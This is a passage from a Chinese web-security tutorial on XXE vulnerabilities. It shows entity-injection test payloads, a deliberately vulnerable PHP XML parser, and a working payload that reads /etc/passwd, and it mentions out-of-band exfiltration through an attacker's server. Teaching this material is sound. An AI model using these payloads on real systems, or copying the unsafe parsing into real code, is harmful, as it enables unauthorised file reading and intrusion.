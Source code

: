 例如wsdl（web服务描述语言）。或者一些常见的采用xml的java服务配置文件（spring，struts2）。不过现实中存在的大多数XXE漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录，这里简单来说就是攻击者必须具有一台具有公网ip的主机。

**xxe漏洞检测**

第一步检测XML是否会被成功解析：

```
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY name "my name is nMask">]>
<root>&name;</root>
```

如果页面输出了my name is nMask，说明xml文件可以被解析。

第二步检测服务器是否支持DTD引用外部实体：

```
<?xml version=”1.0” encoding=”UTF-8”?> 
<!DOCTYPE ANY [ 
<!ENTITY % name SYSTEM "http://localhost/index.html"> 
%name; 
]>
```

可通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求index.html的请求。

**从PHP代码层面上**
最开始，引入一个file_get_contents函数，将整个XML数据读入data字符串中，然后交给php的xml解析函数simplexml_load_string()解析，解析后的数据赋给xml变量。

这一数据即XML字符串中使用的对象(或者说根元素)的数据，并echo输出出来。

```
<?php
$data = file_get_contents('php://input');  //获取提交的XML数据
$xml = simplexml_load_string($data);  // 交给PHP的XML解析函数
echo $xml->name;
?>
```

###  0x04 xxe漏洞的危害

xxe漏洞的危害有很多，比如可以文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等，这里就读取任意文件的利用方式进行测试。

**危害1：读取任意文件**
有回显情况
XML.php

```
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?> 
```
